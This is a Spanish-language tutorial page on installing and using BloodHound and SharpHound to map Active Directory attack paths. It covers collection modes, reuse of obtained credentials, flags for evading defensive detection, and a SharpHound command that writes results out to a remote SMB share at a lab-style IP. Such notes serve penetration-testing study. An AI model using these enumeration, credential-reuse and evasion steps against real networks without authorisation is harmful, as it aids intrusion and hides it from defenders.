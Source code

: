 # Info

Bloodhound es una herramienta capaz de enumerar entornos de AD y Azure que, por medio de una interfaz, presenta los resultados de manera gráfica.

Utiliza una DB NoSQL para guardar los resultados y los presenta con un Graph data model

BloodHound muestra la información mediante **nodes** y **edges**. Los nodos son las OU, los edges son las relaciones que tiene una OU con otra.

# Instalación

Se requiere:

- Java 
- Neo4j

1) Agregamos el repo de java al source list

        echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list

2) Descargamos la key para el repo de neo4J

        wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -

3) agregamos el repo al sourcelist

        echo 'deb https://debian.neo4j.com stable 4.4' | sudo tee -a /etc/apt/sources.list.d/neo4j.list

4) Instalamos los paquetes requeridos

        sudo apt-get install apt-transport-https

5) instalamos neo4j

        sudo apt install neo4j

6) descargamos la última versión de bloodhound

        https://github.com/BloodHoundAD/BloodHound/releases
7) Descomprimimos fichero

        unzip BloodHound-linux-x64.zip && cd BloodHound-linux-x64/

8) lo corremos

        ./BloodHound --no-sandbox

# Uso

Iniciamos el neo4j con:

        sudo systemctl start neo4j

## COnfiguración del primer uso

Una vez iniciado el proceso, vamos al servicio iniciado en el localhost e iniciamos sesión con el user y pass neo4j

        http://localhost:7474/

Reestablecemos la contraseña.

## Recolección de información

Para recolectar información en los entornos de windows usamos SharpHound.

##### Modos de recolección:

| Metodo | desc |
|---|---|
|All | Busca todo lo que esté dentro del dominio menos los GPOLocalGroup |
|DCOnly | Colecta data solamente del DC sin preguntar al resto de los dispositivos domain-joined. Va a traer: Users, computadoras, security groups memberships, domain trusts, privilegios abusables dentro de los objetos. Entre otras cosas |
|Computer Only | Va a colectar información solamente de los equipos domain-joined |

        .\SharpHound.exe -c <metodo>


### Impersonación con SharpHound

Si conseguimos credenciales de otro usuario, podemos utilizarlo mediante las flags --ldapusername --ldappassword 

### Atacar un dominio en específico

SharpHound utiliza el dominio en el que nos encontramos por defecto, pero de haber multiples dominios en el Forest podríamos hacerlo indicando la flag -d y el dominio

        .\SharpHound.exe -c All -d <dominio>

### Entornos monitorizados

En un escenario donde el entorno se encuentra monitorizado, deberíamos realizar dos recolecciones con SHarpHound.

Primero realizamos una de tipo DCOnly, luego analizamos los resultados buscando computadoras que sean interesantes, creamos una lista de las mismas y luego corremos una computerOnly agregando la flag --computerfile y el file creado de las computadoras

        .\SharpHound.exe -c ComputerOnly --computerfile <file>

Se sabe que SharpHound, por defecto, genera distintos .json, que luego guarda en un zip. También genera un archivo con un nombre aleatorio y un .bin que corresponde a la caché de las consultas que realizas. Los equipos de defensa podrían utilizar estos patrones para detectar a Bloodhound. Una forma de intentar ocultar estos rastros es combinando algunas de estas opciones:

| Flag | Desc |
|---|---|
|--memcache | mantiene la caché en moria y no escribe en disco |
|--randomfilenames | Genera nombres de archivos aleatorios incluido el zip (modifica también la extención)|
|--outputprefix | Pone un prefijo a los archivos generados |
|--outputdirectory | señala el directorio en el que se guardarán los archivos |
|--zipfilename | nombra al zip final |
|--zippassword | da una contraseña al password |

Podríamos entonces levantar un smb y enviar el resultado de bloodhound al mismo

        SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword <pass> --outputprefix <pref> --randomfilenames

**<u>Atención:</u> **

Si el archivo que guardamos tiene password vamos a tener que descomprimirlo y luego enviar los archivos resultantes a bloodhound. Si no tiene password, indiferentemente de la extención del mismo, podemos sumarlo a bloodhound.

### Searchbar

La searchbar de Bloodhound nos permite traer información de las OU dentro del Domain.

Podemos también utilizar la funcionalidad de PathFinding (el primer boton del lado derecho de la search bar) para buscar paths de ataque entre dos nodos y utilizar la opción de filtros (el último boton) para indicar qué acciones no debe contemplar.


### El gráfico

Una vez cargada la información recogida, bloodhound nos presentará el gráfico.

En el mismo se mostrarán los nodos y edges

Si hacemos click en un nodo se nos desplegará la **info tab** debajo de la searchtab, si hacemos click derecho sobre el mismo tendremos una serie de opciones:

|Opción | Desc |
|----|-----|
|Set as Starting Node | Setea el nodo como el starting point del pathfinding |
|Set as Ending Node | Setea el nodo como el target en el pathfinding |
|Shortest paths to here | Va a buscar todos los caminos fáciles desde los distintos nodos hasta el nodo seleccionado (esto tarda mucho tiempo) |
| Shortest Paths to here from owned | Busca los vectores de ataque desde los nodos que tenemos como owned hasta el nodo seleccionado |
| Edit Node | Permite modificar las propiedades del nodo|
|Mark group as owned | Cambia el estado del nodo en la base de datos como owned, permitiendo nuevos shortpaths |
| Mark/Unmark Group as High Value | Marca o desmarca un nodo como de gran valor. Podemos aprivechar esto para buscar vectores de ataque usando la query "shortest paths to high-value assets" |
|Delete node | elimina un nodo de la base de datos |

##### Edges

Lo mismo pasa con los Edges, si hacemos click derecho sobre los mismos tendremos dos opciones:

- Help 
  - Info
  - Abuse info <== muesta formas y comandos para explotar
  - Opsec Considerations
  - References
- Delete edge
